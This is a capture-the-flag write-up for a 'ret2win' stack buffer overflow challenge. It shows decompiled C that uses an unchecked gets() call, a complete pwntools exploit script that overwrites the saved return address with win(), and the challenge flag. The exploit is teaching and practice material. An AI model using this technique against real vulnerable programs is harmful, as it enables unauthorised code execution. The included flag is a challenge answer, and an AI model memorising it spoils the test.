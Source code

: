 # [Pwn] ret2win

## 📚 Overview

> *"Buffer overflow di stack bisa kita gunakan untuk overwrite saved RIP. Kita bisa overwrite dengan alamat fungsi win untuk menjalankannya."*

## 💻 Decompiled Code

Basic buffer overflow challenge, there is no checking for input's length in `gets()` function hence we could overwrite the RIP on the stack. 

```c
void win(void)
{
  char flag [104];
  FILE *file;
  
  file = fopen("flag.txt","r");
  if (file == (FILE *)0x0) {
    puts("flag.txt not found");
    FUN_00401120(0xffffffff);
  }
  fgets(flag,100,file);
  fclose(file);
  printf("Wow, how did you get here? Here\'s the flag:\n%s\n",flag);
  return;
}

undefined8 main(void)
{
  char buffer [112];
  
  printf("Give me your payload: ");
  gets(buffer);
  return 0;
}
```

## ⚙ Full Script

**Payload >** Overflow the buffer to reach the stack, and then overwrite the RIP with `win()` address.

```python
from pwn import *
elf = context.binary = ELF("./ret2win", checksec=False)

p = process('./ret2win')
# p = remote("IP_ADDR", PORT)

offset = 0x78
RET_ADDR = 0x40101a
WIN_ADDR = elf.symbols.win

rop = ROP(elf)
rop.raw(RET_ADDR)
rop.raw(WIN_ADDR)

payload = b'A' * offset + rop.chain()
p.sendlineafter(b"Give me your payload: ", payload)

response = p.recvall(timeout=1).strip()
print(response.decode())

# TCP1P{bisa_jalanin_fungsi_apapun_kan_jadinya_bang}

p.close()
```